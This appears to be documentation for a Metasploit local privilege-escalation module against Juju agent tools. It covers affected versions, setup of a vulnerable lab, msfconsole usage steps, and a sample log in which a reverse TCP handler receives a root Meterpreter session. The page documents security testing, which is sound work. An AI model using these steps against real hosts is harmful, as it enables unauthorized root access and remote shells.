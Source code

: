 ## Description

  This module attempts to gain root privileges on Juju agent systems running the juju-run agent utility.

  Juju agent systems running agent tools prior to version 1.25.12, 2.0.x before 2.0.4, and 2.1.x before 2.1.3, provide a UNIX domain socket to manage software ("units") without setting appropriate permissions, allowing unprivileged local users to execute arbitrary commands as root.


## Vulnerable Application

  [Juju](https://juju.ubuntu.com/) is an open source application modelling tool designed for devops to deploy, configure, scale and operate software on public and private clouds.

  * Homepage: https://juju.ubuntu.com/
  * Github: https://github.com/juju/juju

  This module has been tested successfully with Juju agent tools:

  * Versions 1.18.4, 1.25.5 and 1.25.9 on Ubuntu 14.04.1 LTS x86

  Deployed by Juju:

  * Versions 1.18.1-trusty-amd64 and 1.25.6-trusty-amd64 on Ubuntu 14.04.1 LTS x86_64


## Installation

  Two systems are required. The first runs Juju and the second runs the Juju agent tools.

  Ensure the client system has SSH installed and network accessible.

  The following installation instructions are for Ubuntu 14.04.1 LTS ("trusty").

  ```sh
  # List avilable juju packages
  apt-cache showpkg juju

  # Install a vulnerale package
  apt-get install juju-core=1.18.1-0ubuntu1

  # Generate a config file:
  bootstrap init
  ```

  Edit the `manual` section of the newly generated config file, adding the appropriate `bootstrap-host` and `bootstrap-user` for the client system, ensuring the appropriate `default-series` is set (`trusty` for Ububtu 14.x).

  ```
  manual:
    bootstrap-host: juju-client.local # Remote host
    bootstrap-user: user              # User for SSH access
    default-series: trusty            # Remote host OS series
  ```

  Switch to the `manual` environment and bootstrap the remote host specified above:

  ```sh
  juju switch manual
  juju bootstrap
  ```

  Once the bootstrapping is complete, check if it was successful. You should see a machine with ID# 0:

  ```sh
  juju stat
  ```

  Deploy any unit to the machine with ID# 0. Units can be found in the [Juju store](https://jujucharms.com/store).

  ```sh
  juju deploy zabbix-agent --to 0
  ```

  Check if it worked:

  ```sh
  watch juju stat
  ```


  Optionally, to test various versions of the juju agent utilities, the juju tools can be updated remotely. (Note: Downgrading is more difficult.)

  ```sh
  # You may or may not need to `set-env` the upstream tools URL:
  juju set-env agent-metadata-url=https://streams.canonical.com/juju/tools
  juju set-env agent-stream=proposed

  # Be careful to select a version which exists, otherwise bad things will happen.
  juju upgrade-juju --version 1.25.2
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/juju_run_agent_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new root session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf exploit(multi/handler) > use exploit/linux/local/juju_run_agent_priv_esc 
  msf exploit(linux/local/juju_run_agent_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/juju_run_agent_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.244:4444 
  [*] Trying 3 units...
  [+] Unit "unit-zabbix-agent-1" uses a privileged socket
  [*] Writing '/tmp/.tp9oGmPSvx' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.130
  [*] Meterpreter session 2 opened (172.16.191.244:4444 -> 172.16.191.130:43760) at 2018-01-13 12:33:48 -0500
  [+] Deleted /tmp/.tp9oGmPSvx

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.130
  OS           : Ubuntu 14.04 (Linux 3.13.0-32-generic)
  Architecture : i686
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

